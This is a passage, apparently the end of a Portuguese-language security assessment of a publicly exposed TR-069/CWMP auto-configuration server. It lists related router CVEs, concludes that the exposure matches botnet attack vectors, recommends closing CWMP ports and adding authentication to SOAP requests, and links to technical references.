| **CVE-2014-9222**  | Misfortune Cookie – falha crítica em milhões de roteadores.             | [🔗 NVD](https://nvd.nist.gov/vuln/detail/CVE-2014-9222) |
| **CVE-2018-10562** | D-Link vulnerável a execução remota via interface TR-069.               | [🔗 NVD](https://nvd.nist.gov/vuln/detail/CVE-2018-10562) |
| **CVE-2018-20377** | Zhone GPON executando comandos SOAP sem autenticação.                   | [🔗 NVD](https://nvd.nist.gov/vuln/detail/CVE-2018-20377) |

---

## Conclusão 
A superfície exposta pelo ACS apresenta possiveis vulnerabilidades e comportamentos alinhados com vetores explorados por botnets.

### Recomendações

- Remover exposição pública das portas CWMP (7547, 57547).
- Implementar autenticação e controle nas requisições SOAP.
- Monitorar e reduzir a superfície de ataque para evitar exploração automatizada.

---

### Referências Técnicas

- [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [Broadband Forum - TR-069 Technical Library](https://www.broadband-forum.org/technical-library/?search=TR-069)

### Links e referências

- [TR-069 Parameters](https://techdocs.audiocodes.com/multi-service-business-routers/mp-5xx/user-manual/version-720/Content/UM/TR-069%20Parameters.htm)
- [Mirai Attacks on TR-069](https://www.qacafe.com/resources/home-router-attack-tr-069-vulnerability/)
- [NVD - CVE-2024-56316](https://nvd.nist.gov/vuln/detail/CVE-2024-56316)
- [Exploit DB Wireless Router](https://www.exploit-db.com/exploits/40740)
- [Cloudshark Capture](https://www.cloudshark.org/captures/5e15ace66abc?filter=dns%20or%20icmp)
- [TR-069 Code Injection Attack](https://www.qacafe.com/resources/2017-01-12-tr-069-code-injection-attack/)
- [NVD - CVE-2017-17215](https://nvd.nist.gov/vuln/detail/CVE-2017-17215#match-14611660)
